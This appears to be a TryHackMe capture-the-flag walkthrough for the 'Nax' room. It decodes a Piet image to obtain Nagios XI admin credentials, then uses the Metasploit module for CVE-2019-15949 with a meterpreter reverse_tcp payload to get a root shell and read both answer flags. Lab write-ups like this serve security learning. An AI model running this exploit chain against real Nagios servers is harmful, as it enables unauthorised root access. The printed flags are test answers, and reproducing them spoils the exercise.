

# Nax

## Description

Identify the critical security flaw in the most powerful and trusted network monitoring software on the market, that allows an user authenticated execute remote code execution.

## Initial Scan

Let's start with an Nmap scan. The scan reveals five open ports:
* 22 ssh
* 25 smtp
* 80 http
* 389 ldap
* 443 ssl

~~~
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 62:1d:d9:88:01:77:0a:52:bb:59:f9:da:c1:a6:e3:cd (RSA)
|   256 af:67:7d:24:e5:95:f4:44:72:d1:0c:39:8d:cc:21:15 (ECDSA)
|_  256 20:28:15:ef:13:c8:9f:b8:a7:0f:50:e6:2f:3b:1e:57 (ED25519)
25/tcp  open  smtp     Postfix smtpd
|_smtp-commands: ubuntu.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-03-23T23:42:04
|_Not valid after:  2030-03-21T23:42:04
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=192.168.85.153/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Not valid before: 2020-03-24T00:14:58
|_Not valid after:  2030-03-22T00:14:58
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: Host:  ubuntu.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Hidden File

Let's start with the webpage:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Nax]
└─$ curl -s "http://$IP/"                   
<html>
<head></head>
<body>
<! --/nagiosxi/ --> 
	<pre>
		     ,+++77777++=:,                    +=                      ,,++=7++=,,
		    7~?7   +7I77 :,I777  I          77 7+77 7:        ,?777777??~,=+=~I7?,=77 I
		=7I7I~7  ,77: ++:~+777777 7     +77=7 =7I7     ,I777= 77,:~7 +?7, ~7   ~ 777?
		77+7I 777~,,=7~  ,::7=7: 7 77   77: 7 7 +77,7 I777~+777I=   =:,77,77  77 7,777,
		  = 7  ?7 , 7~,~  + 77 ?: :?777 +~77 77? I7777I7I7 777+77   =:, ?7   +7 777?
		      77 ~I == ~77=77777~: I,+77?  7  7:?7? ?7 7 7 77 ~I   7I,,?7 I77~
		       I 7=77~+77+?=:I+~77?     , I 7? 77 7   777~ +7 I+?7  +7~?777,77I
		         =77 77= +7 7777         ,7 7?7:,??7     +7    7   77??+ 7777,
		             =I, I 7+:77?         +7I7?7777 :             :7 7
		                7I7I?77 ~         +7:77,     ~         +7,::7   7
		               ,7~77?7? ?:         7+:77           77 :7777=
		                ?77 +I7+,7         7~  7,+7  ,?       ?7?~?777:
		                   I777=7777 ~     77 :  77 =7+,    I77  777
		                     +      ~?     , + 7    ,, ~I,  = ? ,
		                                    77:I+
		                                    ,7
		                                     :777
		                                        :
						Welcome to elements.
					Ag - Hg - Ta - Sb - Po - Pd - Hg - Pt - Lr
	</pre>
</body>
<html>
~~~

As you can see there is a directory called `/nagiosxi/` which means Nagios is installed and we also have a sequence of elements. First, let's figure out what the elements are about.

As you probably know, every element has an atomic number, and that how they are sorted in the Periodic table. So my first guess was to take the atomic number of each element and then replace them with their ascii values. First I found every element's atomic value:

| Ag | Hg | Ta | Sb | Po | Pd | Hg | Pt | Lr |
| -- | -- | -- | -- | -- | -- | -- | -- | -- |
| 47 | 80 | 73 | 51 | 84 | 46 | 80 | 78 | 103|

Then I used a simple python code to replace each numeric value with its ascii value:

~~~py
>>> print(''.join([chr(i) for i in [47, 80, 73, 51, 84, 46, 80, 78, 103]]))
/PI3T.PNg
~~~

Hidden file: `/PI3T.PNg`

## The Artist

Now we need the name of the creator of the file, so I downloaded the file and used `exiftool` to read the meta data:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Nax/files]
└─$ exiftool PI3T.PNg  
ExifTool Version Number         : 12.32
File Name                       : PI3T.PNg
Directory                       : .

[REDACTED]

Artist                          : Piet Mondrian   <-----------------
Copyright                       : Piet Mondrian, tryhackme 2020
Image Size                      : 990x990
Megapixels                      : 0.980
~~~

Creator: `Piet Mondrian`

## Finding Credential

Now the author suggests us to use `gimp` and export this png file as a `ppm` file. After doing so, I used a tool called `npiet` which you can download [here](https://github.com/gleitz/npiet) and it is a PIET decoder. After executing it on the ppm file, it outputs a long sequence that repeats `nagiosadmin%n3p3UQ&9BjLp4$7uhWdY` and it seems like the creds we need for `/nagiosxi/` login section.

~~~
┌──(user㉿Y0B01)-[~/…/thm/Nax/files/npiet]
└─$ ./npiet ../PI3T.ppm
nagiosadmin%n3p3UQ&9BjLp4$7uhWdYnagiosadmin%n3p3UQ&9BjLp4$7uhWdYnagiosadmin%n3p3UQ&9BjLp4$7uhWdY [REDACTED]
~~~

Username: `nagiosadmin`

Password: `n3p3UQ&9BjLp4$7uhWdY`

## Exploit

After logging into the admin panel, we can see what version of Nagios it is running:

I searched for `Nagios XI exploits` and found one [here](https://www.cvedetails.com/cve/CVE-2019-15949/). This CVE allows remote command execution as root.

CVE: `CVE-2019-15949`

### Metasploit

Thankfully metasploit has a module for this CVE:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Nax/files]
└─$ msfconsole -q

msf6 > search CVE-2019-15949

Matching Modules
================

   #  Name                                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                                 ---------------  ----       -----  -----------
   0  exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce  2019-07-29       excellent  Yes    Nagios XI Prior to 5.6.6 getprofile.sh Authenticated Remote Command Execution
   1  auxiliary/scanner/http/nagios_xi_scanner                                              normal     No     Nagios XI Scanner

Interact with a module by name or index. For example info 1, use 1 or use auxiliary/scanner/http/nagios_xi_scanner

msf6 > use 0
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) >
~~~

Metasploit module: `exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce`

Now let's set the required variables and run the exploit:

~~~
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed, try to do so. Th
                                              is includes signing the license agreement.
   PASSWORD                         yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                           yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                              /wiki/Using-Metasploit
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an addr
                                              ess on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host

Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)

msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set lhost tun0
lhost => 10.9.2.86
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set lport 4444
lport => 4444
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set rhosts 10.10.47.218
rhosts => 10.10.47.218
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set password n3p3UQ&9BjLp4$7uhWdY
password => n3p3UQ&9BjLp4$7uhWdY
~~~

Now let's run the exploit and see what happens:

~~~
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > exploit

[*] Started reverse TCP handler on 10.9.2.86:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.5.6
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3012548 bytes) to 10.10.47.218
[*] Meterpreter session 1 opened (10.9.2.86:4444 -> 10.10.47.218:37340 ) at 2021-10-23 07:39:30 -0400
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.
~~~

### Shell

The exploit works and now we can spawn a shell and obtain the flags. The first thing I did was spawning a TTY shell using a python one-liner:

~~~
which python
/usr/bin/python
python -c "import pty;pty.spawn('/bin/bash')"
root@ubuntu:/usr/local/nagiosxi/html/includes/components/profile#
~~~

The exploit gained us root access as it was told before. Let's find the flags.

## User Flag

You can find the user flag in `/home/galand`:

~~~
root@ubuntu:/usr/local/nagiosxi/html/includes/components/profile# cd /home/galand
root@ubuntu:/home/galand# ls
nagiosxi  user.txt
root@ubuntu:/home/galand# cat user.txt
THM{84b17add1d72a9f2e99c33bc568ae0f1}
~~~

user.txt: `THM{84b17add1d72a9f2e99c33bc568ae0f1}`

## Root Flag

Now we can go ahead and read the root flag in `/root`:

~~~
root@ubuntu:/home/galand# cd /root
root@ubuntu:~# ls
root.txt  scripts
root@ubuntu:~# cat root.txt
THM{c89b2e39c83067503a6508b21ed6e962}
~~~

root.txt: `THM{c89b2e39c83067503a6508b21ed6e962}`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun!

Have a good one! : )